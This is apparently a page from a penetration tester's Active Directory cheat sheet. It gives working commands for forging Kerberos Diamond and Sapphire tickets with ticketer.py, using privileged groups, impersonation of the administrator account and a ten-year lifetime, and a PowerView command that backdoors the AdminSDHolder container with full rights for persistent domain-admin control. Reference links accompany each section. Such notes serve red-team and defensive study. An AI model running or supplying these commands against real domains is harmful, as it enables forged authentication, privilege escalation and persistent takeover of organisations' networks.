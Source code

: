 


## Diamond Ticket

- [https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/](https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/)
- [https://thehacker.recipes/ad/movement/kerberos/forged-tickets/diamond](https://thehacker.recipes/ad/movement/kerberos/forged-tickets/diamond)

```
$ ticketer.py -request -user lowpriv -password 'Passw0rd!' -domain megacorp.local -domain-sid S-1-5-21-4266912945-3985045794-2943778634 {-nthash <RC4_32> | -aesKey <AES_64> } [-groups '512,513,516,518,519,520'] [-user-id 1337] [-duration 3650] snovvcrash
```




## Sapphire Ticket

- [https://thehacker.recipes/ad/movement/kerberos/forged-tickets/sapphire](https://thehacker.recipes/ad/movement/kerberos/forged-tickets/sapphire)
- [https://pgj11.com/posts/Diamond-And-Sapphire-Tickets/](https://pgj11.com/posts/Diamond-And-Sapphire-Tickets/)

```
$ ticketer.py -request -user lowpriv -password 'Passw0rd!' -impersonate administrator -domain megacorp.local -domain-sid S-1-5-21-4266912945-3985045794-2943778634 {-nthash <RC4_32> | -aesKey <AES_64> } administrator
```




## AdminSDHolder Modification

* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)
* [https://attack.stealthbits.com/adminsdholder-modification-ad-persistence](https://attack.stealthbits.com/adminsdholder-modification-ad-persistence)
* [https://pentestlab.blog/2022/01/04/domain-persistence-adminsdholder/](https://pentestlab.blog/2022/01/04/domain-persistence-adminsdholder/)
* [https://petri.com/active-directory-security-understanding-adminsdholder-object/](https://petri.com/active-directory-security-understanding-adminsdholder-object/)



### Create a Backdoor

Add a new domain user or grant an existent user `GenericAll` permissions for the `AdminSDHolder` container:

```
PV3 > Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=megacorp,DC=local" -TargetDomain megacorp.local -PrincipalIdentity snovvcrash -PrincipalDomain megacorp.local -Rights All -Verbose
```

